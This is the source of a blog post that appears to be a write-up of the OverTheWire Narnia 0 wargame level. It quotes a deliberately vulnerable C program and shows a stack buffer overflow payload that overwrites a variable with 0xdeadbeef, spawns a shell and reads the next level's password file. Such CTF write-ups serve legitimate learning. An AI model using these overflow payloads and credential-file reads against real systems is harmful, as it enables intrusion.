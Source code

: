 ```yaml
---
layout:     post
title:      "Overthewire.org - Narnia 0 -> 1"
subtitle:   "Write-Up"
date:       2017-01-01 0:00:00
author:     "W3ndige"
header-img: "img/overthewire-header.png"
permalink: /:title/
category: Overthewire
---
```


<h1>Introduction</h1>

<p>As a part of my New Year's resolutions I decided to improve my knowledge of binary exploitation, learn more by completing challenges from <a href="http://overthewire.org/wargames/">OverTheWire</a>, especially Narnia, as they are aimed to people wanting to learn about basics. </p>

<h1>Challenge</h1>

<p>Firstly, let's take a look at the code of this program. </p>

{% highlight c %}
#include <stdio.h>
#include <stdlib.h>

int main(){
	long val=0x41414141;
	char buf[20];

	printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
	printf("Here is your chance: ");
	scanf("%24s",&buf);

	printf("buf: %s\n",buf);
	printf("val: 0x%08x\n",val);

	if(val==0xdeadbeef)
		system("/bin/sh");
	else {
		printf("WAY OFF!!!!\n");
		exit(1);
	}

	return 0;
}

{% endhighlight %}

<p>Okay, now we know that the binary accepts one string input from the user and puts the string into a buffer of 20 bytes, then if the value of variable <b>val</b> is equal to <b>0xdeadbeef</b>, we will get a shell. Let's try to send to 20 "A" characters, with 4 letters "B", in order to overflow the buffer, and overwrite the value of <b>0x41414141</b> with our "B" letters. </p>

{% highlight text %}
narnia0@melinda:/narnia$ python -c print'("A" * 20) + "BBBB"' | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAABBBB
val: 0x42424242
WAY OFF!!!!
narnia0@melinda:/narnia$
{% endhighlight %}

<p>Great, now we know that it works and we're one step closer to the solution. Now let's think how we can change value to <b>0xdeadbeef</b>. First thing to remember - the values need to be in hex format, not characters as I thought at first. In addition, I recalled that the bytes will be in reversed order, so we have to write them from the last to the first one. </p>

{% highlight text %}
narnia0@melinda:/narnia$ python -c print'("A" * 20) + "\xef\xbe\xad\xde"' | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ�
val: 0xdeadbeef

{% endhighlight %}

<p>We got the shell but it closed immediately! Let's find a way to keep it running, in order to view the password to the next level. </p>

{% highlight text %}
narnia0@melinda:/narnia$ (python -c print'("A" * 20) + "\xef\xbe\xad\xde"'; cat /etc/narnia_pass/narnia1) | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ�
val: 0xdeadbeef
cat: /etc/narnia_pass/narnia1: Permission denied
{% endhighlight %}

<p>Unfortunately, it closed too quickly and the command was executed after the shell had closed. I tried many other commands, and noticed something strange - <b>cat</b> seemed to do exactly what we want! </p>

{% highlight text %}
narnia0@melinda:/narnia$ (python -c print'("A" * 20) + "\xef\xbe\xad\xde"'; cat) | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ�
val: 0xdeadbeef
whoami
narnia1
cat /etc/narnia_pass/narnia1
********
{% endhighlight %}

<p>But why is it working? From man page: </p>

<b>With no FILE, or when FILE is -, read standard input.</b>

<h1>Last words</h1>

<p>As I never tought before, this was a great challenge, and I think I got more interested in binary exploitation and reverse engineering. Can't wait to try out some other challenges, and I'll see you in the next one!</p>

<p>~ Stay safe!</p>
